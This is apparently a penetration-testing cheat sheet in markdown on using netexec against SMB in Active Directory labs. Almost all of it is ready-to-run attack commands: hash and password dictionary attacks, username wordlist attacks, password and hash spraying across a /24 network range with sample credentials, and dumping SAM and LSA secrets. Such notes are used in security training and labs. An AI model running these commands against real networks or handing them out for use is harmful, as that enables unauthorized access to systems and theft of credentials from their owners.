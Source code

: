[[8._BloodHound]]

**netexec is heavily used for credential enumeration across several protocols (ldap, ssh, smb, mssql, winrm).  CME works alongside popular modules to become an extremely powerful resource.**

```bash
sudo apt install netexec
```

```bash
netexec --help
```

#### Dictionary attack (Hashes)
Here we are attacking SMB protocol with a list of users and hashes against the domain of "Blackfield".
```bash - kali
netexec smb $TARGET -u Blackfield/users.txt -H Blackfield/hashes.txt
```

#### Dictionary attack (Passwords)
Here we found a valid username "neil", and are attempting to find a valid password by utilizing a wordlist.
```bash - kali
netexec smb $TARGET -u neil -p /usr/share/seclists/Passwords/Common-Credentials/best1050.txt
```

#### User wordlist attack with single password
Here we found a valid password "SecretOrg!", and are attempting to find a valid user by utilizing a wordlist.
```bash
netexec smb secret.csl -u users.txt -p 'SecretOrg!'
```

#### Spray username and hash
Here we found valid username and hash, and are spraying a network range to find a working target.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -H 64f12cddaa88057e06a81b54e73b949b
```


#### Spray username and password
Here we found valid username and password, and are spraying a network range to find a working target.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1
```


#### sam file dump with netexec
Here we found valid username and password, and are spraying a network range to dump sam hashes.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```

#### lsa file dump with netexec
Here we found valid username and password, and are spraying a network range to dump sam hashes.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1 --lsa
```